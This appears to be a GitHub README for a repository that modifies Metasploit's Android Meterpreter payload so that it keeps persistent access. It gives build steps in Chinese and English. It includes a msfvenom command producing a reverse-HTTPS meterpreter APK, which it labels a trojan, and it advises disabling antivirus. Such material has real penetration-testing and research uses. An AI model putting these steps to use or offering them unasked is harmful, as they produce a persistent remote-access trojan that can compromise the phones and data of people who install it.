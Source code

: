 https://github.com/xiaohuanshu/persistent-androidpayload
修改Metasploit安卓Payload源码以实现持久化访问

# Building the Java and Android Meterpreter
只要下载java文件，AS打开androidpayload文件夹，但是mvn命令生成jar文件是在java目录下，而不是androidpayload目录——会出错。
pom.xml有感叹号错误不必理会，mvn package命令会下载缺失Maven文件

1. 根据自身的环境安装Maven(3.5以上版本) 和 Java8

apt-get update

apt-get -y install maven

update-alternatives  --config mvn

update-alternatives  --config javac


2. 安装 [Android SDK](https://developer.android.com/sdk/index.html), 和 [Android NDK](https://developer.android.com/tools/sdk/ndk/index.html) 

3. 安装 Android SDK Platforms最新29, 10 and 19, 并更新 "Android SDK Tools" 和 "Android SDK Platform-tools"， a和b这里没有安装齐全mvn package会彻底Erro，删除Android SDK和NDK文件夹，重新到setting里下载

a. AS->File->Setting->System Setting->Android SDK->SDK Platforms

下载Android SDK Platforms——API version 最新的SDK（compileSdkVersion）29+10 +19

b. AS->File->Setting->System Setting->Android SDK->SDK Tools->Show Package Details打勾,

Android SDK Build Tools

Android SDK Platform-Tools 29.0.5
Android SDK Tools 26.1.1
NDK(Side by side)20.0.055
Cmake 3.10.
Android SDK Build-Tools 25.0.0(AhMyth)
Android Emulator 29.2.11

4. 项目没有gradle/wrapper文件夹，新建build.gradle（已上传），才能AS->File->Sync Project with Gradle Files

5. 编译AndroidPayload for Metasploit ... SUCCESS 即成功,并把编译新生成的/java/target/data中android文件夹——复制到Metasploit-framework根目录下的data文件夹。
Android 木马：

cd metasploit-payloads/tree/master/java

mvn package -Dandroid.sdk.path=/root/Android/sdk -Dandroid.release=true -P deploy

返回成功信息：

[INFO] AndroidPayload for Metasploit ...................... SUCCESS [  8.920 s]

[INFO] Android Meterpreter ................................ FAILURE [  4.153 s]

[INFO] BUILD FAILURE

cd /java/target/data

cp -r android /usr/share/metasploit-framework/data

java木马：mvn -D deploy.path=/usr/share/metasploit-framework -P deploy package



6.通过msfvenom命令生成APK:

msfvenom

search android

msfvenom -l payloads

msfvenom -p android/meterpreter_reverse_https  LHOST=10.10.10.102 LPORT=4444 -o payload.apk


返回信息：如果开头出现了这三个WARNING，说明msfvenom生成APK时使用的是我们修改后的版本。 payload.apk在root目录,即主文件夹

WARNING: Local file /usr/share/metasploit-framework/data/android/apk is being used

WARNING: Local files may be incompatible with the Metasploit Framework

WARNING: Local file /usr/share/metasploit-framework/data/android/apk/classes.dex is being used


## Building on OSX
```
brew cask install caskroom/versions/java8
brew cask install android-sdk
brew install maven
sdkmanager --licenses
sdkmanager "platforms;android-10"
sdkmanager "platforms;android-19"

#cd metasploit-payloads/java
mvn package -Dandroid.sdk.path=/usr/local/share/android-sdk -Dandroid.release=true -P deploy
```

## Compiling JavaPayload and Java Meterpreter manually

To compile JavaPayload (a Java stager / code loader) and Java Meterpreter for
Metasploit, you need Maven 3.1 or above (Maven 3.5 works at the time of this
writing), and a copy of JDK 8.0 or later. Ensure that `mvn` and `javac` are in
your path and work. Then run

```
mvn package
```

to package all the files needed for Java meterpreter. The two files that you will be generated are:

```
meterpreter/meterpreter/target/meterpreter.jar
meterpreter/stdapi/target/ext_server_stdapi.jar
```

To get Metasploit to use these files, you need to place them in a place where
it can find them. To automatically build and install these files into
Metasploit Framework for testing, run:

```
mvn -P deploy package
```

This will package all the files and copy them into the correct place for
Metasploit, assuming that the metasploit-framework repository is checked out in
an adjacent directory to this one. (`../../metasploit-framework/data/java`). If
you get spurious compilation errors, make sure that there is an exclude rule in
your antivirus for the Metasploit directory (or that your antivirus is
disabled).

If the path to your metasploit framework repository is not
`../../metasploit-framework`, but for example (with Kali Linux)

`/usr/share/metasploit-framework/`, set the deploy.path directive like so:

```
mvn -D deploy.path=/usr/share/metasploit-framework -P deploy package
```

When you are editing this or any other Meterpreter, you will want to make sure
that your copy of metasploit-framework is also up-to-date. We occasionally
update the network protocol between Metasploit and its Payloads, and if the two
do not match, things will probably not work. Metasploit will warn you the first
time it stages a development payload that it is doing so, and that the payload
and Metasploit framework may be incompatible.

Each time you make a change to your code, you must build and deploy the files
into metasploit-framework for it to see the updates. It is not necessary to
restart msfconsole when updating payloads however, as they are read from disk
each time. So, a reasonable strategy when debugging is to leave msfconsole
running with `exploit/multi/handler`, and just install and restage payloads as
needed.

When you are done editing and want to revert Metasploit to use the builtin
payloads, simply delete `data/meterpreter/*.jar` and `data/meterpreter/java`
from your Metasploit framework directory. It will then fall back to the
versions bundled with the metasploit-payloads Ruby gem.

# IDE Support

In case you want to edit/debug JavaPayload for Metasploit or Java Meterpreter
with an IDE, Maven provides plugins to auto-generate project files for your
favourite environment (at least for Eclipse, Netbeans or IntelliJ).

I use Eclipse, so to generate project files I use

```
mvn eclipse:eclipse
```

This will generate project files that can be imported via

**File->Import->Existing Projects into Workspace**

into your Eclipse workspace.

(Note that if this is your first Maven project you want to use in Eclipse, you
also have to run

```
mvn -Declipse.workspace=/path/to/your/workspace eclipse:configure-workspace
```

to set up path variables like `M2_REPO` to point to the correct location.)

For NetBeans or IntelliJ IDEA, refer to the documentation at

http://maven.apache.org/netbeans-module.html
http://maven.apache.org/plugins/maven-idea-plugin/



